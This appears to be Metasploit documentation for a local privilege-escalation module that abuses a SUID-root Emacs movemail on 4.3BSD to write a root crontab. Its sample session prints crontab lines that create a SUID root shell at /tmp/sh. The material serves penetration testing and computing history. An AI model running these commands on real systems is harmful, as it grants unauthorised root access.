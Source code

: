 ## Vulnerable Application

### Description

This module exploits a SUID installation of the Emacs `movemail` utility to run
a command as root by writing to 4.3BSD's `/usr/lib/crontab.local`.

The vulnerability is documented in Cliff Stoll's book _The Cuckoo's Egg_.

### Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen Garvin's
[guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if you're using
[Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

### Targets

```
Id  Name
--  ----
0   /usr/lib/crontab.local
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**MOVEMAIL**

Set this to the absolute path to the SUID-root `movemail` executable.

**CMD**

If your payload is `cmd/unix/generic` (suggested default), set this to the
command you want to run as root. The provided default will create a SUID-root
shell at `/tmp/sh`.

## Scenarios

### 4.3BSD

```
msf5 > use exploit/unix/local/emacs_movemail
msf5 exploit(unix/local/emacs_movemail) > show missing

Module options (exploit/unix/local/emacs_movemail):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (cmd/unix/generic):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

msf5 exploit(unix/local/emacs_movemail) > set session -1
session => -1
msf5 exploit(unix/local/emacs_movemail) > run

[*] Setting a sane $PATH: /bin:/usr/bin:/usr/ucb:/etc
[-] Current shell is unknown
[*] $PATH is /bin:/usr/bin:/usr/ucb:/etc
[+] SUID-root /etc/movemail found
[*] Preparing crontab with payload
* * * * * root cp /bin/sh /tmp && chmod u+s /tmp/sh
* * * * * root rm -f /usr/lib/crontab.local
[*] Creating writable /usr/lib/crontab.local
[+] Writing crontab to /usr/lib/crontab.local
[!] Please wait at least one minute for effect
[*] Exploit completed, but no session was created.
msf5 exploit(unix/local/emacs_movemail) >
```
